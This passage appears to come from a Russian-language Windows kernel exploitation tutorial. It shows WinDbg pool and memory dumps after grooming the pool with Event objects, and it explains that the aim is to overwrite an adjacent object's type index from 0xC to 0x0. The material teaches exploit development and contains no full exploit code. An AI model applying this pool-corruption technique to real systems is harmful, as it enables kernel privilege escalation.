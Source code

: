 Вернёмся к чуть ранее показанному дампу

```js
kd> !pool 0x8513C8C8
Pool page 8513c8c8 region is Unknown
 8513c000 size:  388 previous size:    0  (Free )  XSav
 8513c388 size:  438 previous size:  388  (Free)       ....
 8513c7c0 size:   40 previous size:  438  (Allocated)  Even (Protected)
 8513c800 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513c840 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513c880 size:   40 previous size:   40  (Allocated)  Even (Protected)
*8513c8c0 size:  200 previous size:   40  (Allocated) *Hack
        Owning component : Unknown (update pooltag.txt)
 8513cac0 size:   40 previous size:  200  (Allocated)  Even (Protected)
 8513cb00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cb40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cb80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cbc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cc00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cc40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cc80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513ccc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cd00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cd40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cd80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513cdc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513ce00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8513ce40 size:  1c0 previous size:   40  (Free)       Even

```

Наш аллокцированный чанк лежит ровно между объектами, которые мы сами создали

## [](#header-2)Портим память

Теперь, когда мы контролируем пул с достаточно предсказуемой манере, время перезаписать тут индекс и изменить его на 0x0 с 0xC. Всё остальное между нашей 0x200 аллокацией и этим байтом должно остаться таким же, иначе БСОД. 

Давайте просто воспользуемся командой dd, чтобы сдампить 32 значения DWORD из начала Event Objects сразу после нашего буфера ядра.

```js
kd> dd 8513cac0
ReadVirtual: 8513cac0 not properly sign extended
8513cac0  04080040 ee657645 00000000 00000040
8513cad0  00000000 00000000 00000001 00000001
8513cae0  00000000 0008000c 86e7f640 00000000
8513caf0  ff040001 00000000 8513caf8 8513caf8
8513cb00  04080008 ee657645 00000000 00000040
8513cb10  00000000 00000000 00000001 00000001
8513cb20  00000000 0008000c 86e7f640 00000000
8513cb30  ff040001 00000000 8513cb38 8513cb38
```
